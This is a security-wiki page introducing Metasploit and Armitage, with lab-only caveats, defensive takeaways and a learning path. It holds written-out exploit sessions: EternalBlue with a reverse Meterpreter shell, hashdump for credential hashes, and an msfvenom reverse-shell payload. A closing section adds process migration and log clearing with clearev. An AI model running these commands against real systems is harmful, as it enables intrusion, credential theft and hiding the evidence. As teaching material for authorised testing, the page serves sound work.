

[Computing](computing.md) | [Computer Security](computersecurity.md) | [Linux Security](linuxsecurity.md) |
[Industrial Control Systems Security](icssecurity.md) | [Penetration Testing](penetrationtesting.md) |
[Exploitation](exploitation.md) | [Social Engineering](internetexploitation.md) | [Metasploit](metasploit.md)

# Metasploit & Armitage

Here is the truth about Metasploit: **it is a library of known doors and the tools to push them – useful in a lab and a liability anywhere you lack permission.** The Framework is not magic; it packages other people's vulnerability research into a consistent interface.

### What it is, in plain words

The **Metasploit Framework** (open source, Rapid7) is a platform for developing, organising and running exploits. Core ideas:

- **Exploits** – code that triggers a vulnerability.
- **Payloads** – what runs after: Meterpreter, shells, add-user stubs.
- **Auxiliary** modules – scanners, fuzzers, spoofers (no exploit required).
- **Post** modules – privilege escalation, gathering, pivoting after a session.
- **Encoders / evasion** – reshape payloads (not a free pass past modern AV).

You drive it with `msfconsole`, sometimes with `msfvenom` to generate standalone payloads. It belongs in an authorised lab – see [Penetration Testing](penetrationtesting.md).

### Why it matters

Metasploit teaches the anatomy of an exploit chain: target → module → options → payload → session → post. Defenders should recognise its traffic and fingerprints; attackers-in-training should learn how quickly unpatched software falls. It is also a reminder that "script kiddie tools" are often just *well-engineered* tools.

### An everyday analogy: a locksmith's ring

A locksmith carries keys that open many common locks. Metasploit is that ring for software. Having the key doesn't make it legal to open someone else's door.



### A hands-on example (lab only)

```bash
# Kali / authorised lab VM
msfconsole -q
```

```
msf6 > search eternalblue
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > show options
msf6 > set RHOSTS 192.168.56.30
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.56.10
msf6 > exploit
```

Against a *deliberately vulnerable* target on a host-only network. When a Meterpreter session opens:

```
meterpreter > sysinfo
meterpreter > getuid
meterpreter > hashdump          # only if in scope
```

Generate a payload for a custom drill:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f elf -o /tmp/pay.elf
```

Again: only on systems you own or have written permission to test.

### Defensive takeaways

If you run systems for real:

- patch, especially anything internet-facing that ever appeared in an MSF module;
- watch for default Meterpreter ports and obvious shellcode patterns in IDS;
- assume scanners will find RDP, SMB and ancient web apps – close or shield them;
- log auth and process creation so "post" modules leave footprints.

Running Metasploit against your *own* lab once a year teaches more about your exposure than a shelf of unread CVE emails.

### Common misconceptions

- **"Metasploit equals hacking skill."** It equals access to modules. Skill is knowing when they apply, when they fail, and what to do next.
- **"Payloads are invisible."** Modern EDR sees a lot. Lab success ≠ production stealth.
- **"Auxiliary modules are harmless."** Scans can crash fragile systems. Scope still applies.
- **"It's only for Windows."** There are modules across OSes, web apps and protocols.
- **"Armitage/Cobalt Strike are Metasploit."** Related ecosystem; different tools and licences.

### Organising a learning path

1. Finish a legal lab install (two VMs, host-only network).
2. Work through auxiliary scanners before exploits – see what noise you generate.
3. Use one exploit end-to-end; write notes as if you owed a client a report.
4. Re-do the same target by hand (curl, python, gdb) so MSF isn't a black box.
5. Only then explore post modules and pivoting – still inside the lab.

Metasploit is a force multiplier *after* fundamentals, not a substitute for them.

### Connections

- [Penetration Testing](penetrationtesting.md), [Exploitation](exploitation.md), [Enumeration](enumeration.md).
- [Computer Security](computersecurity.md), [Linux Security](linuxsecurity.md).
- [VirtualBox](virtualbox.md) – build the lab first.

Some commands to operate metasploit:

```
search netapi

use exploit ms08

set payload window/meterpreter/bind_tcp

show options

set RHOST target_ip

exploit

meterpreter> getpid

ps
```

select any legitimate process and its PID

```
migrate PID

?
```

finally clear all logs on the target

```
clearev
```

## Tools - Reading List

- msfconsole is used to start metasploit
- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) a free
      course which is a must do
- armitage - a frontend gui
